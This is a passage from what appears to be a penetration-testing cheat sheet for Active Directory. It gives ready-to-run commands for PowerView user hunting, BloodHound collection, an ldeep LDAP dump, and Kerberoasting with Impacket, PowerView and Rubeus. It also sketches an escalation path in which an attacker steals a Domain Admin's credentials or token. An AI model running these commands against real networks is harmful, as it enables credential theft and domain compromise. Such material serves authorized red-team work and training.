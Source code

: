 ```
Invoke-UserHunter -Stealth

# Confirming admin access:
Invoke-UserHunter -CheckAccess
```
:heavy_exclamation_mark: **Priv Esc to Domain Admin with User Hunting:** \
I have local admin access on a machine -> A Domain Admin has a session on that machine 
  -> I steal his credentials/token and impersonate him

  [PowerView 3.0 Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

##### Bloodhound

With Powershell:
```
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup,LoggedOn
Invoke-BloodHound -IgnoreLdapCert -LdapUser <user> -LdapPass <password> -CollectionMethod All,GPOLocalGroup,LoggedOn
```
With Exe:
```
.\sh.exe --CollectionMethod All,GPOLocalGroup
```

##### Ldeep
```
# Get users
ldeep -s 10.10.10.10 -d <DOMAIN_FQDN> -u <user> -p <password> users

# Dump all LDAP, generating also .lst files
ldeep -s 10.10.10.10 -d <DOMAIN_FQDN> -u <user> -p <password> all ldap_dump/
```

#### SPNs

With Impacket:
```
GetUserSPNs.py <domain_name>/<user>:<password>
GetUserSPNs.py <domain_name>/<user> -outputfile <filename> -hashes :<nt_hash>
```

With Powerview:
```
# List users with SPN
Get-NetUser -SPN

# Request TGS for every SPN
Invoke-Kerberoast
```
With Rubeus:
```
# Kerberoasting and outputing on a file with a specific format
Rubeus.exe kerberoast /domain:<domain_name> /outfile:<filename> 

# Kerberoast specific user account
Rubeus.exe kerberoast /user:<user> /domain:<domain_name> /outfile:<filename> /simple

# Kerberoast by specifying credentials 
Rubeus.exe kerberoast /creduser:<user> /credpassword:<password> /domain:<domain_name> /outfile:<filename>
```
